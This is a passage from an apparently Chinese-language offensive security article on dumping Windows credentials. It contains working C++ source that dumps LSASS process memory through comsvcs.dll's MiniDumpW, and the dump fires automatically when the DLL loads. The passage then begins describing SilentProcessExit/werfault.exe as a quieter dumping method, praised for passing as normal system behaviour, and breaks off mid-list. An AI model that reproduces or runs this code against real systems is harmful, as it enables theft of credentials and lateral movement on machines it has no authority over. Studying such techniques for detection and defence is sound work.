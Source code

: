 ```c
    wchar_t  ws[100];
    _MiniDumpW MiniDumpW;

    MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
    cout << "GetProcAddress MiniDumpW success" << endl;
    swprintf(ws, 100, L"%u %hs", GetLsassPid(), "C:\\temp.bin full");   

    getPrivilege();

    MiniDumpW(0, 0, ws);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DumpLsass();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
int main() {
    DumpLsass();
}
```

SilentProcessExit进行Dump
-----------------------

> 具体原理参考文章：[利用SilentProcessExit机制dump内存](https://mp.weixin.qq.com/s/8uEr5dNaQs24KuKxu5Yi9w)
> 
> Silent Process Exit，即静默退出。而这种调试技术，可以派生 werfault.exe进程，可以用来运行任意程序或者也可以用来转存任意进程的内存文件或弹出窗口。在某个运行中的进程崩溃时，werfault.exe将会Dump崩溃进程的内存，从这一点上看，我们是有可能可以利用该行为进行目标进程内存的Dump。
> 
> 优点：系统正常行为  
> 缺点：需要写注册表
> 
> 该机制提供了在两种情况下可以触发对被监控进行进行特殊动作的能力：
> 
> - （1）被监控进程调用 ExitProcess() 终止自身；

- （2）其他进程调用 TerminateProcess() 结束被监控进程。

也就意味着当进程调用ExitProcess() 或 TerminateProcess()的时候，可以触发对该进程的如下几个特殊的动作:
